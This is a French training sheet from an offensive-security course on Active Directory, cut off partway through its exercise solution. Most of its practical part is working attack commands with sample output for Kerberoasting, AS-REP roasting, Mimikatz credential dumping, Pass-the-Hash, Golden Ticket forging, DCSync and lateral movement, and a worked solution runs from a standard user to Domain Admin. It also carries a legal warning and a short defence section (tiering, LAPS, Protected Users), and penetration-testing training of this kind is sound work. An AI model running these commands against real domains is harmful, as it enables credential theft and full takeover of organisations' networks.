

---
tags:
  - Cybersécurité
  - Avancé
  - Pratique
description: "Attaques et sécurisation Active Directory : énumération, Kerberos, mouvement latéral, défense"
estimated_time: "60 min"
fiche_number: 3
total_fiches: 5
cursus: "Phase 4 - Spécialisation Offensive"
---

# 03 - Active Directory - Attaque et Sécurisation

> **En bref** : À la fin de cette fiche, tu sauras énumérer un environnement Active Directory avec BloodHound et PowerView, exploiter les attaques Kerberos (Kerberoasting, AS-REP Roasting, Pass-the-Hash, Golden/Silver Ticket), te déplacer latéralement dans un domaine et appliquer les défenses recommandées (tiering, LAPS, Protected Users). Lecture estimée : 60 min.

!!! warning "Cadre légal : lab et autorisation uniquement"
    Les techniques et commandes de cette fiche ne doivent être utilisées **que** sur un lab AD que tu contrôles, une plateforme d'entraînement autorisée, ou un engagement avec **autorisation écrite**. Tester un Active Directory tiers sans autorisation est illégal en France (Code pénal, art. 323-1 et s.). Ce wiki n'est **pas** une autorisation d'attaque.

## Prérequis

- [01 - Méthodologie de Pentest](01-methodologie-pentest.md) (cette phase)
- [02 - Exploitation et Post-Exploitation](02-exploitation-post-exploitation.md) (cette phase)
- [Phase 1 - Fiche 02 : Systèmes d'exploitation](../01-fondamentaux-informatiques/02-systemes-exploitation.md) (processus, permissions, Windows)
- Connaissance de base de Windows Server et des réseaux d'entreprise
- Maîtrise de PowerShell (navigation, cmdlets de base)

## Objectif de cette fiche

À la fin de cette fiche, tu sauras énumérer un environnement Active Directory avec BloodHound et PowerView, exploiter les attaques Kerberos (Kerberoasting, AS-REP Roasting, Pass-the-Hash, Golden/Silver Ticket), te déplacer latéralement dans un domaine et appliquer les défenses recommandées (tiering, LAPS, Protected Users).

---

## Concepts

### Qu'est-ce qu'Active Directory ?

**Définition** : Active Directory (AD) est le service d'annuaire de Microsoft qui centralise la gestion des identités, des authentifications et des autorisations dans un réseau d'entreprise Windows.

**Le problème qu'Active Directory résout** :

Sans Active Directory, voici les problèmes rencontrés :

1. **Gestion décentralisée** : Chaque machine gère ses propres comptes utilisateurs. Modifier un mot de passe nécessite une intervention sur chaque poste.
2. **Authentification incohérente** : Les utilisateurs doivent se connecter séparément à chaque service avec des identifiants différents.
3. **Politiques de sécurité fragmentées** : Les règles de sécurité (complexité des mots de passe, verrouillage de compte) varient d'une machine à l'autre.

**Comment Active Directory résout ces problèmes** :

| Problème | Solution apportée par Active Directory |
| -------- | -------------------------------------- |
| Gestion décentralisée | Base centralisée : un seul compte par utilisateur, géré depuis un contrôleur de domaine |
| Authentification incohérente | Authentification unique (SSO) via Kerberos pour tous les services du domaine |
| Politiques de sécurité fragmentées | Group Policy Objects (GPO) appliquées uniformément à toutes les machines |

**Composants clés d'Active Directory** :

| Composant | Rôle | Analogie |
| --------- | ---- | -------- |
| Domain Controller (DC) | Serveur qui gère l'annuaire et l'authentification | Le bureau de sécurité de l'immeuble |
| Domain | Périmètre d'administration (ex: `corp.example.com`) | L'immeuble entier |
| Forest | Ensemble de domaines liés par des relations de confiance | Le campus avec plusieurs immeubles |
| Organizational Unit (OU) | Conteneur pour organiser les objets (utilisateurs, machines) | Un étage de l'immeuble |
| Group Policy Object (GPO) | Ensemble de règles appliquées aux OUs | Le règlement intérieur de l'étage |
| Kerberos | Protocole d'authentification par tickets | Le système de badges d'accès |
| NTLM | Protocole d'authentification legacy (challenge-response) | L'ancien système de mots de passe |
| LDAP | Protocole de consultation de l'annuaire | L'annuaire téléphonique de l'immeuble |

**Analogie concrète** : Active Directory est comme le système de sécurité d'un grand immeuble de bureaux. Un bureau de sécurité central (Domain Controller) délivre les badges (tickets Kerberos). Chaque employé (utilisateur) a un badge unique. Le matin, il présente son badge (authentification) et reçoit un pass donnant accès à certains étages et salles (autorisations). Le responsable sécurité (administrateur) peut modifier les accès de tout le monde depuis un seul endroit.

Le diagramme suivant illustre la hiérarchie des objets dans Active Directory, de la forêt jusqu'aux utilisateurs et groupes :



**Ce qu'Active Directory n'est PAS** :

- Active Directory n'est pas un simple annuaire LDAP. C'est un écosystème complet incluant l'authentification Kerberos, les GPO, la réplication et les relations de confiance entre domaines.
- Active Directory n'est pas limité à Windows. Via LDAP et Kerberos, des systèmes Linux et macOS peuvent rejoindre un domaine AD.

---

### Comment fonctionne l'authentification Kerberos ?

**Définition** : Kerberos est un protocole d'authentification réseau basé sur un système de tickets délivrés par un tiers de confiance (le Key Distribution Center, hébergé sur le Domain Controller).

**Les étapes de l'authentification Kerberos** :

| Étape | Nom | Description |
| ----- | --- | ----------- |
| 1 | AS-REQ | L'utilisateur envoie une demande au KDC avec son identité (pas le mot de passe) |
| 2 | AS-REP | Le KDC répond avec un Ticket Granting Ticket (TGT), chiffré avec le hash du mot de passe utilisateur |
| 3 | TGS-REQ | L'utilisateur présente son TGT pour demander un ticket de service (TGS) |
| 4 | TGS-REP | Le KDC délivre un TGS chiffré avec le hash du compte de service |
| 5 | AP-REQ | L'utilisateur présente le TGS au service cible |
| 6 | AP-REP | Le service valide le ticket et accorde l'accès |

**Pourquoi Kerberos est attaqué** :

Chaque étape du protocole repose sur des secrets cryptographiques. Si un attaquant obtient un de ces secrets (hash de mot de passe, clé de session, TGT), il peut contourner l'authentification. C'est la base de toutes les attaques Kerberos décrites dans cette fiche.

---

### Quelles sont les attaques principales contre Active Directory ?

**Attaques d'énumération** :

| Attaque | Description | Outil |
| ------- | ----------- | ----- |
| BloodHound/SharpHound | Cartographie les relations de confiance, les chemins d'attaque et les privilèges | BloodHound, SharpHound |
| LDAP énumération | Interrogation de l'annuaire pour lister utilisateurs, groupes, machines | `ldapsearch`, PowerView |
| SMB énumération | Découverte de partages, sessions et utilisateurs via SMB | `enum4linux-ng`, `netexec` (ex-CrackMapExec) |
| RPC énumération | Énumération des utilisateurs et groupes via RPC | `rpcclient`, `lookupsid.py` |

**Attaques Kerberos** :

| Attaque | Principe | Prérequis |
| ------- | -------- | --------- |
| Kerberoasting | Demander un TGS pour un compte de service, puis le craquer offline | Compte domaine valide |
| AS-REP Roasting | Obtenir le hash du compte d'un utilisateur sans pré-authentification | Compte avec pré-auth désactivée |
| Pass-the-Hash (PtH) | Utiliser le hash NTLM au lieu du mot de passe pour s'authentifier | Hash NTLM d'un utilisateur |
| Pass-the-Ticket (PtT) | Injecter un ticket Kerberos volé dans la session courante | TGT ou TGS volé |
| Golden Ticket | Forger un TGT avec le hash du compte krbtgt | Hash NTLM du compte krbtgt |
| Silver Ticket | Forger un TGS avec le hash du compte de service | Hash NTLM du compte de service |
| DCSync | Simuler un contrôleur de domaine pour extraire les hashes | Droits de réplication (GenericAll sur le domaine) |

**Attaques relais et délégation** :

| Attaque | Principe | Prérequis |
| ------- | -------- | --------- |
| NTLM relay | Relayer une authentification NTLM capturée vers un autre service | Position man-in-the-middle |
| Délégation abuse | Exploiter la délégation Kerberos (unconstrained, constrained, RBCD) pour usurper l'identité d'un autre utilisateur | Compte avec délégation configurée |
| ACL abuse | Exploiter des permissions excessives dans l'AD (GenericAll, WriteDacl, WriteOwner) | Accès à un compte avec des ACL permissives |

---

### Qu'est-ce que le mouvement latéral ?

**Définition** : Le mouvement latéral est le processus par lequel un attaquant se déplace d'une machine compromise vers d'autres machines du même réseau, en utilisant les identifiants ou les tickets obtenus.

**Techniques de mouvement latéral** :

| Technique | Protocole | Prérequis | Détection |
| --------- | --------- | --------- | --------- |
| PsExec | SMB (445) | Admin local + hash/mot de passe | Création de service, Event ID 7045 |
| WMI | DCOM (135) | Admin local + hash/mot de passe | Event ID 4648, processus wmiprvse.exe |
| WinRM | HTTP/S (5985/5986) | Membre du groupe "Remote Management Users" | Event ID 4648, processus wsmprovhost.exe |
| DCOM | DCOM (135) | Admin local | Processus mmc.exe, dllhost.exe |
| RDP hijacking | RDP (3389) | Privilèges SYSTEM | Event ID 4778/4779 |
| SSH | SSH (22) | Clés SSH ou mot de passe | Logs SSH, Event ID 4624 type 10 |

**Analogie concrète** : Le mouvement latéral, c'est comme un cambrioleur qui entre dans un immeuble par l'appartement du rez-de-chaussée et découvre que la même clé ouvre aussi les appartements des étages supérieurs. Dans un réseau AD, quand les administrateurs utilisent le même mot de passe partout, compromettre un poste donne accès à tous les autres.

---

## Étapes Pratiques

### Étape 1 : Énumérer l'Active Directory avec BloodHound

BloodHound cartographie les chemins d'attaque dans un domaine AD en analysant les relations entre objets (utilisateurs, groupes, machines, GPO).

**Collecte des données avec SharpHound** (depuis une machine jointe au domaine) :

```powershell
# -c All : collecter toutes les informations (sessions, ACL, trusts, etc.)
.\SharpHound.exe -c All --outputdirectory C:\Temp\bloodhound
```

**Alternative avec la version Python** (depuis Linux, nécessite des identifiants domaine valides) :

```bash
bloodhound-python -u 'jdupont' -p 'P@ssw0rd' -d corp.example.com \
  -ns 10.10.10.1 -c all --zip
```

**Importer dans BloodHound** :

```bash
# 1. Lancer la base Neo4j
sudo neo4j start

# 2. Lancer BloodHound
bloodhound

# 3. Importer le fichier ZIP généré par SharpHound
# Glisser-déposer le fichier ZIP dans l'interface BloodHound
```

**Résultat attendu** :

```text
# SharpHound :
2026-03-19T10:00:00 - Status: 145 name to SID mappings
2026-03-19T10:00:02 - Status: 12 computers, 234 users, 45 groups enumerated
2026-03-19T10:00:05 - Enumeration completed. 1 zip file created.
SharpHound Enumeration Completed at 10:00:05! Happy Graphing!

# Dans BloodHound, les requêtes prédéfinies montrent :
# - "Find Shortest Path to Domain Admins"
# - "Find Kerberoastable Users"
# - "Find AS-REP Roastable Users"
```

---

### Étape 2 : Énumérer avec PowerView

```powershell
# Charger PowerView en mémoire (bypass de l'exécution de scripts)
powershell -ep bypass
Import-Module .\PowerView.ps1

# Obtenir les informations du domaine
Get-Domain

# Lister les contrôleurs de domaine
Get-DomainController

# Lister tous les utilisateurs du domaine
Get-DomainUser | Select-Object samaccountname, description, memberof

# Chercher les utilisateurs avec un SPN (cibles Kerberoasting)
Get-DomainUser -SPN | Select-Object samaccountname, serviceprincipalname

# Chercher les utilisateurs sans pré-authentification (cibles AS-REP Roasting)
Get-DomainUser -PreauthNotRequired | Select-Object samaccountname

# Lister les groupes privilégiés
Get-DomainGroup -Identity "Domain Admins" | Select-Object member
Get-DomainGroup -Identity "Enterprise Admins" | Select-Object member

# Chercher les partages réseau accessibles
Find-DomainShare -CheckShareAccess

# Chercher les sessions actives sur les machines
Find-DomainUserLocation

# Vérifier les ACL sur un objet spécifique
Get-DomainObjectAcl -Identity "Domain Admins" -ResolveGUIDs |
  Where-Object {$_.ActiveDirectoryRights -match "GenericAll|WriteDacl|WriteOwner"}
```

**Résultat attendu** :

```text
# Utilisateurs avec SPN (Kerberoastable) :
samaccountname    serviceprincipalname
--------------    --------------------
svc_sql           MSSQLSvc/sql01.corp.example.com:1433
svc_web           HTTP/web01.corp.example.com
svc_backup        CIFS/backup01.corp.example.com

# Utilisateurs sans pré-auth (AS-REP Roastable) :
samaccountname
--------------
old_admin
service_legacy
```

---

### Étape 3 : Exécuter un Kerberoasting

Le Kerberoasting cible les comptes de service qui ont un SPN (Service Principal Name). On demande un ticket TGS pour ce service, puis on le cracke offline car il est chiffré avec le hash du mot de passe du compte de service.

Depuis Linux avec Impacket :

```bash
# GetUserSPNs.py demande les TGS pour tous les comptes avec SPN
impacket-GetUserSPNs corp.example.com/jdupont:'P@ssw0rd' \
  -dc-ip 10.10.10.1 -outputfile kerberoast_hashes.txt
```

Depuis Windows avec Rubeus :

```powershell
.\Rubeus.exe kerberoast /outfile:kerberoast_hashes.txt
```

Craquer les hashes avec hashcat :

```bash
# Mode 13100 = Kerberos 5 TGS-REP (etype 23 = RC4)
hashcat -m 13100 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt

# Mode 19700 = Kerberos 5 TGS-REP (etype 17/18 = AES)
hashcat -m 19700 kerberoast_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Résultat attendu** :

```text
# GetUserSPNs :
ServicePrincipalName                    Name       MemberOf
--------------------------------------  ---------  --------
MSSQLSvc/sql01.corp.example.com:1433    svc_sql    CN=Domain Admins
HTTP/web01.corp.example.com             svc_web

$krb5tgs$23$*svc_sql$CORP.EXAMPLE.COM$MSSQLSvc/sql01*$a1b2c3...

# Hashcat :
$krb5tgs$23$*svc_sql$CORP.EXAMPLE.COM$MSSQLSvc/sql01*$a1b2c3...:Summer2025!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
```

---

### Étape 4 : Exécuter un AS-REP Roasting

L'AS-REP Roasting cible les comptes qui ont la pré-authentification Kerberos désactivée. On peut demander un AS-REP chiffré avec le hash du mot de passe de ces comptes sans connaître leur mot de passe.

Depuis Linux avec Impacket :

```bash
impacket-GetNPUsers corp.example.com/ -dc-ip 10.10.10.1 \
  -usersfile users.txt -outputfile asrep_hashes.txt -format hashcat

# Si on a des identifiants valides, on peut lister automatiquement
# les comptes vulnérables
impacket-GetNPUsers corp.example.com/jdupont:'P@ssw0rd' \
  -dc-ip 10.10.10.1 -outputfile asrep_hashes.txt
```

Depuis Windows avec Rubeus :

```powershell
.\Rubeus.exe asreproast /outfile:asrep_hashes.txt
```

Craquer avec hashcat :

```bash
# Mode 18200 = Kerberos 5 AS-REP (etype 23)
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Résultat attendu** :

```text
# GetNPUsers :
$krb5asrep$23$old_admin@CORP.EXAMPLE.COM:a1b2c3d4...

# Hashcat :
$krb5asrep$23$old_admin@CORP.EXAMPLE.COM:a1b2c3d4...:Welcome123

Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
```

---

### Étape 5 : Exécuter un Pass-the-Hash

Le Pass-the-Hash utilise le hash NTLM d'un utilisateur pour s'authentifier sans connaître le mot de passe en clair. Cela fonctionne car NTLM ne nécessite pas le mot de passe mais seulement son hash.

Extraire les hashes (depuis un shell admin/SYSTEM) avec Mimikatz :

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

Ou avec Impacket secretsdump (à distance, depuis Linux, nécessite des droits admin) :

```bash
impacket-secretsdump corp.example.com/admin:'P@ssw0rd'@10.10.10.1
```

Pass-the-Hash (depuis Linux) :

```bash
# Avec NetExec (successeur maintenu de CrackMapExec ; binaire nxc)
# Sur d'anciens labs, crackmapexec peut encore exister avec la même syntaxe
netexec smb 10.10.10.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42

# Avec Impacket PsExec
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42 \
  corp.example.com/administrator@10.10.10.50

# Avec Evil-WinRM
evil-winrm -i 10.10.10.50 -u administrator -H e19ccf75ee54e06b06a5907af13cef42
```

**Résultat attendu** :

```text
# NetExec (nxc) :
SMB  10.10.10.50  445  DC01  [*] Windows Server 2022 Build 20348 x64
SMB  10.10.10.50  445  DC01  [+] corp.example.com\administrator:e19ccf75... (Pwn3d!)

# Impacket PsExec :
[*] Requesting shares on 10.10.10.50.....
[*] Found writable share ADMIN$
[*] Uploading file to ADMIN$
[*] Opening SVCManager on 10.10.10.50.....
[*] Creating service on 10.10.10.50.....
[*] Starting service on 10.10.10.50.....

Microsoft Windows [Version 10.0.20348.887]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

---

### Étape 6 : Forger un Golden Ticket

Le Golden Ticket est un TGT forgé avec le hash du compte `krbtgt`. Ce compte est utilisé par le KDC pour chiffrer _tous_ les TGT du domaine. Avec son hash, on peut forger un TGT pour n'importe quel utilisateur, y compris un administrateur du domaine.

Obtenir le hash du compte krbtgt via DCSync (depuis Linux) :

```bash
# Nécessite des droits de réplication
impacket-secretsdump corp.example.com/admin:'P@ssw0rd'@10.10.10.1 -just-dc-user krbtgt
# Résultat : krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a2b3c4d5e6f7890...
```

Forger le Golden Ticket avec Mimikatz (depuis Windows) :

```powershell
# /domain : nom du domaine
# /sid : SID du domaine (S-1-5-21-...)
# /krbtgt : hash NTLM du compte krbtgt
# /user : utilisateur à usurper
# /id : RID de l'utilisateur (500 = Administrator)
mimikatz.exe "kerberos::golden /domain:corp.example.com /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:1a2b3c4d5e6f7890... /user:Administrator /id:500 /ptt"
```

Forger avec Impacket (depuis Linux) :

```bash
impacket-ticketer -nthash 1a2b3c4d5e6f7890... \
  -domain-sid S-1-5-21-1234567890-1234567890-1234567890 \
  -domain corp.example.com Administrator

# Utiliser le ticket forgé
export KRB5CCNAME=Administrator.ccache
impacket-psexec -k -no-pass corp.example.com/Administrator@dc01.corp.example.com
```

**Résultat attendu** :

```text
# Mimikatz Golden Ticket :
mimikatz # kerberos::golden /domain:corp.example.com /sid:S-1-5-21-... /krbtgt:1a2b3c... /user:Administrator /id:500 /ptt
User      : Administrator
Domain    : corp.example.com (CORP)
SID       : S-1-5-21-1234567890-1234567890-1234567890
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 1a2b3c4d5e6f7890... - rc4_hmac_nt
-> Ticket : ** Pass The Ticket **

# On a maintenant un accès Domain Admin complet
C:\> dir \\dc01\c$
 Volume in drive \\dc01\c$ has no label.
 Directory of \\dc01\c$
```

---

### Étape 7 : Exécuter un DCSync

Le DCSync simule le comportement d'un contrôleur de domaine qui demande la réplication des données. Cela permet d'extraire les hashes de _tous_ les comptes du domaine, y compris le compte krbtgt.

Avec Mimikatz (depuis Windows) :

```powershell
mimikatz.exe "lsadump::dcsync /domain:corp.example.com /user:krbtgt"
mimikatz.exe "lsadump::dcsync /domain:corp.example.com /all /csv"
```

Avec Impacket (depuis Linux) :

```bash
impacket-secretsdump corp.example.com/admin:'P@ssw0rd'@10.10.10.1 -just-dc

# Extraire uniquement les hashes NTLM
impacket-secretsdump corp.example.com/admin:'P@ssw0rd'@10.10.10.1 \
  -just-dc-ntlm -outputfile domain_hashes
```

**Résultat attendu** :

```text
# DCSync via Impacket :
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b...:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7...:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1a2b3c4d5e6f7890...:::
svc_sql:1103:aad3b435b51404eeaad3b435b51404ee:a4f49c406510bdcab...:::
jdupont:1104:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e0...:::
```

---

### Étape 8 : Se déplacer latéralement

```bash
# === PsExec via Impacket ===
impacket-psexec corp.example.com/administrator:'P@ssw0rd'@10.10.10.50

# === WMI via Impacket ===
impacket-wmiexec corp.example.com/administrator:'P@ssw0rd'@10.10.10.50

# === WinRM via Evil-WinRM ===
evil-winrm -i 10.10.10.50 -u administrator -p 'P@ssw0rd'

# === NetExec (ex-CrackMapExec) pour tester les identifiants sur tout le réseau ===
# Tester un mot de passe sur toutes les machines du réseau
netexec smb 10.10.10.0/24 -u administrator -p 'P@ssw0rd'

# Exécuter une commande sur les machines où l'accès est confirmé
netexec smb 10.10.10.0/24 -u administrator -p 'P@ssw0rd' \
  -x "whoami && hostname"

# Extraire les hashes SAM locaux des machines compromises
netexec smb 10.10.10.0/24 -u administrator -p 'P@ssw0rd' --sam
```

**Résultat attendu** :

```text
# NetExec :
SMB  10.10.10.50  445  DC01      [+] corp\administrator:P@ssw0rd (Pwn3d!)
SMB  10.10.10.51  445  SRV-WEB   [+] corp\administrator:P@ssw0rd (Pwn3d!)
SMB  10.10.10.52  445  SRV-SQL   [+] corp\administrator:P@ssw0rd (Pwn3d!)
SMB  10.10.10.53  445  WS-01     [+] corp\administrator:P@ssw0rd (Pwn3d!)
SMB  10.10.10.54  445  WS-02     [-] corp\administrator:P@ssw0rd (STATUS_LOGON_FAILURE)
```

---

## Commandes Utiles

| Commande | Action |
| -------- | ------ |
| `bloodhound-python -u user -p pass -d domain -c all` | Collecter les données BloodHound depuis Linux |
| `.\SharpHound.exe -c All` | Collecter les données BloodHound depuis Windows |
| `Get-DomainUser -SPN` | Lister les comptes Kerberoastable (PowerView) |
| `Get-DomainUser -PreauthNotRequired` | Lister les comptes AS-REP Roastable (PowerView) |
| `impacket-GetUserSPNs domain/user:pass -dc-ip IP` | Kerberoasting depuis Linux |
| `.\Rubeus.exe kerberoast` | Kerberoasting depuis Windows |
| `impacket-GetNPUsers domain/ -usersfile users.txt` | AS-REP Roasting depuis Linux |
| `impacket-secretsdump domain/user:pass@IP` | Extraire les hashes (DCSync) |
| `impacket-psexec domain/user:pass@IP` | Mouvement latéral via PsExec |
| `evil-winrm -i IP -u user -p pass` | Mouvement latéral via WinRM |
| `netexec smb CIDR -u user -p pass` | Tester des identifiants sur le réseau (ex-CrackMapExec) |
| `hashcat -m 13100 hashes.txt wordlist.txt` | Craquer des hashes Kerberoast (RC4) |
| `hashcat -m 18200 hashes.txt wordlist.txt` | Craquer des hashes AS-REP (RC4) |
| `mimikatz "sekurlsa::logonpasswords"` | Extraire les mots de passe en mémoire |
| `mimikatz "kerberos::golden /domain:... /krbtgt:..."` | Forger un Golden Ticket |
| `mimikatz "lsadump::dcsync /domain:... /all"` | DCSync complet |

---

## Pièges Fréquents

### Piège 1 : Verrouiller des comptes avec le brute force

**Problème** : Tu tentes un password spray avec 10 mots de passe sur tous les utilisateurs. La politique de verrouillage bloque les comptes après 3 tentatives. Tu viens de verrouiller 200 comptes en production.

**Solution** : Avant tout password spray, vérifie la politique de verrouillage du domaine avec `Get-ADDefaultDomainPasswordPolicy` ou `netexec smb IP -u '' -p '' --pass-pol`. Respecte le seuil de verrouillage et l'intervalle de réinitialisation. Limite-toi à 1-2 tentatives par compte, espacées dans le temps.

---

### Piège 2 : Confondre le hash LM et le hash NTLM

**Problème** : Tu utilises le hash LM (première moitié) au lieu du hash NTLM (deuxième moitié) pour un Pass-the-Hash. L'authentification échoue systématiquement.

**Solution** : Le format de secretsdump est `utilisateur:RID:hashLM:hashNTLM:::`. Le hash LM (`aad3b435b51404ee...`) est souvent vide (désactivé). Pour le Pass-the-Hash, utilise toujours le hash NTLM (après le deuxième `:`).

```text
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b...:::
                  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ^^^^^^^^^^^^^^^^^^^^^^
                  Hash LM (souvent vide/inutile)     Hash NTLM (à utiliser)
```

---

### Piège 3 : Ignorer les chemins d'attaque BloodHound

**Problème** : Tu te concentres uniquement sur les attaques Kerberos sans utiliser BloodHound. Tu manques un chemin d'attaque simple : un utilisateur standard a GenericAll sur un groupe Domain Admins.

**Solution** : Toujours commencer par BloodHound. Exécute les requêtes prédéfinies ("Shortest Path to Domain Admins", "Find Kerberoastable Users") et explore le graphe manuellement. Les chemins d'attaque via les ACL sont souvent plus simples que les attaques Kerberos.

---

### Piège 4 : Oublier la détection

**Problème** : Tu exécutes Mimikatz directement sur le DC. L'EDR le détecte, l'alerte est remontée et le client interrompt le test.

**Solution** : Adapte tes techniques au niveau de détection. En milieu protégé, utilise des alternatives moins détectées : `impacket-secretsdump` à distance plutôt que Mimikatz en local, Rubeus plutôt que Mimikatz pour Kerberos, et NetExec avec l'option `--no-bruteforce` pour le password spray.

---

### Piège 5 : Ne pas tester les relations de confiance inter-forêts

**Problème** : Tu compromets un domaine mais tu ne vérifies pas les relations de confiance. Un trust bidirectionnel vers un autre domaine/forêt offre un chemin vers des ressources supplémentaires.

**Solution** : Énumère les trusts avec `Get-DomainTrust` (PowerView) ou `nltest /domain_trusts`. Si un trust existe, vérifie si tu peux énumérer et attaquer le domaine distant via le SID History ou les Foreign Group Memberships.

---

## Défense et Sécurisation

### Modèle de tiering (Admin Tier Model)

| Tier | Périmètre | Comptes | Postes d'administration |
| ---- | --------- | ------- | ----------------------- |
| Tier 0 | Domain Controllers, AD, PKI | Comptes admin Tier 0 uniquement | PAW (Privileged Access Workstation) dédiés |
| Tier 1 | Serveurs (web, SQL, fichiers) | Comptes admin Tier 1 uniquement | PAW Tier 1 ou jump servers |
| Tier 2 | Postes de travail utilisateurs | Comptes admin Tier 2 uniquement | Console admin centralisée |

**Règle fondamentale** : Un compte d'un tier supérieur ne doit _jamais_ se connecter à un système d'un tier inférieur. Un admin Tier 0 ne se connecte jamais sur un poste utilisateur (Tier 2), car ses identifiants seraient exposés en mémoire.

### Mesures de sécurisation

| Mesure | Ce qu'elle protège |
| ------ | ------------------ |
| LAPS (Local Administrator Password Solution) | Mot de passe admin local unique par machine, rotation automatique |
| Protected Users group | Membres protégés contre le credential caching, la délégation et NTLM |
| gMSA (Group Managed Service Accounts) | Mots de passe de service gérés automatiquement (128 chars, rotation 30j) |
| Kerberos AES enforcement | Force l'utilisation d'AES au lieu de RC4, rend le Kerberoasting plus difficile |
| SMB signing | Empêche le NTLM relay sur SMB |
| LDAP signing/channel binding | Empêche le NTLM relay sur LDAP |
| Disable NTLM | Supprime le protocole NTLM au profit de Kerberos uniquement |
| Credential Guard | Isole les secrets dans un environnement virtualisé (empêche Mimikatz) |

---

## Checklist de Validation

- [ ] Je sais collecter et analyser des données BloodHound
- [ ] Je sais énumérer un domaine AD avec PowerView et ldapsearch
- [ ] Je sais exécuter un Kerberoasting et craquer les hashes obtenus
- [ ] Je sais exécuter un AS-REP Roasting
- [ ] Je comprends le Pass-the-Hash et le Pass-the-Ticket
- [ ] Je sais forger un Golden Ticket et un Silver Ticket
- [ ] Je sais exécuter un DCSync pour extraire les hashes du domaine
- [ ] Je sais me déplacer latéralement avec PsExec, WMI et WinRM
- [ ] Je connais le NTLM relay et l'abus de délégation
- [ ] Je connais les mesures de défense (tiering, LAPS, Protected Users, gMSA)

---

## Exercice Pratique

**Énoncé** : Tu as obtenu un accès initial sur un poste de travail Windows joint au domaine `corp.lab.local`. Tu as un shell en tant que l'utilisateur `jdupont` (utilisateur standard du domaine). Ta mission :

1. Énumérer le domaine avec BloodHound et PowerView
2. Identifier au moins un compte Kerberoastable
3. Craquer le hash du TGS obtenu
4. Utiliser le mot de passe craqué pour te déplacer latéralement
5. Obtenir les droits Domain Admin
6. Extraire le hash du compte krbtgt via DCSync

**Indications** :

- Utilise `bloodhound-python` depuis ta machine Linux ou `SharpHound.exe` depuis le poste Windows
- Vérifie la politique de verrouillage avant tout password spray
- Cherche les chemins d'attaque dans BloodHound (Shortest Path to Domain Admins)
- Documente chaque étape

**Résultat attendu** : Un rapport contenant les commandes exécutées, les sorties obtenues, le mot de passe craqué, la preuve de l'accès Domain Admin et le hash du compte krbtgt.

**Plateformes d'entraînement** :

- Hack The Box : machines "Active", "Forest", "Cascade", "Sauna"
- TryHackMe : parcours "Active Directory Basics" et "Attacking Active Directory"

---

## Solution de l'Exercice

> **Note** : Cette section contient la solution complète. Essaie d'abord de résoudre l'exercice par toi-même avant de consulter cette solution.

---

**1. Énumération** :

```bash
# Collecter les données BloodHound
bloodhound-python -u 'jdupont' -p 'Welcome1' -d corp.lab.local \
  -ns 10.10.10.1 -c all --zip

# Importer dans BloodHound et exécuter "Find Shortest Path to Domain Admins"
# Résultat : jdupont -> Kerberoast svc_sql -> svc_sql est membre de Domain Admins
```

**2. Kerberoasting** :

```bash
impacket-GetUserSPNs corp.lab.local/jdupont:'Welcome1' \
  -dc-ip 10.10.10.1 -outputfile kerberoast.txt

# Résultat :
# svc_sql - MSSQLSvc/sql01.corp.lab.local:1433 - Domain Admins
```

**3. Craquage** :

```bash
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt
# Résultat : svc_sql:Summer2025!
```

**4. Mouvement latéral** :

```bash
# Vérifier l'accès avec les identifiants craqués
netexec smb 10.10.10.1 -u svc_sql -p 'Summer2025!'
# [+] corp.lab.local\svc_sql:Summer2025! (Pwn3d!)

# Se connecter au DC
impacket-psexec corp.lab.local/svc_sql:'Summer2025!'@10.10.10.1
# C:\Windows\system32> whoami
# nt authority\system
```

**5. DCSync** :

```bash
impacket-secretsdump corp.lab.local/svc_sql:'Summer2025!'@10.10.10.1 -just-dc-user krbtgt
